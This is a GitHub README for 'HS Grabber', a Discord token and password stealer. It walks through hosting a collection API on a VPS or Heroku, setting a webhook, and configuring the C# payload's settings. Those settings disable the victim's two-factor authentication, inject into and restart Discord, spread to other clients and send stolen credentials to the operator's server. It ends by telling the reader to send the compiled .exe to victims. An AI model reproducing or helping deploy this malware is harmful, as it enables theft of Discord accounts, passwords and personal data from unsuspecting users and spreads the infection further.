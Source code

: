 # HS Grabber
An powerful discord token grabber / discord token stealer stole discord password, info, etc, same when you change password. [Need a screenshot ?](https://github.com/Stanley-GF/HS-Grabber#Some-screenshot-of-the-grabber)

10 Star = video tutorial

# How to use

## #1 : API Hosting

### Method 1 : (require a vps)

Open port 80

Install Apache2 : 
```
$ sudo apt-get update
$ sudo apt-get install apache2
```

Test server : 

```
$ curl urserverurl
```

Configure Firewall :
```
$ sudo ufw allow 'Apache'
```

Verify the change :
```
$ sudo ufw status
```

Install API :
```
$ git clone https://github.com/Stanley-GF/api.git
```

Configure port & ip in the main index.js
```
$ cd api
$ nano index.js
```

Configure webhook url : 
```
$ cd api/endpoints
$ nano index.js
```

Your API URL gonna be : 
https://your-vps-ip/api/v1/send (replace your-vps-ip by ur real vps ip, obviously)

### Method 2 : Heroku (the best for beginner)

* Start https://heroku.com
* Signup an account
* Create an app
* Fork https://github.com/Stanley-GF/api on your github account
* Go in endpoints -> index.js -> edit and replace the webhook url by your webhook url
* Go in https://dashboard.heroku.com/apps/ , click on your app, go in "deploy" category
* In deployment method, select Github, login in your github account by authorize OAuth thing -> in App Connected, type "api" and select your project
* Enable "Automatic Deploy"
* press on Deploy Branch
* your server url gonna be : https://your-app-name.herokuapp.com/api/v1/send (replace your-app-name by ur real app name, obviously)

## #2 : Your .exe

* Download src of this project
* Open project
* Go in settings.cs and configure option : 

```cs

public static bool disableMfa = false; // disable 2FA 

public static bool restartDiscord = true; // restart discord after injection

public static bool spread = true; // ALWAYS TRUE : (for infect client)

private static string serverurl = "https://your-app-name.herokuapp.com/api/v1/send"; // replace "your-app-name.herokuapp.com/api/v1/send" by your api url

public static string Url = "https://cors-anywhere2.herokuapp.com/" + serverurl; // don't tuch.
```

* Compile the project
* Go in `\HS-Grabber\HS-Grabber\bin\Debug`
* Send the .exe to victims ! 

# Some screenshot of the grabber

![yay](https://cdn.discordapp.com/attachments/797933407476777012/798145821203628052/unknown.png)
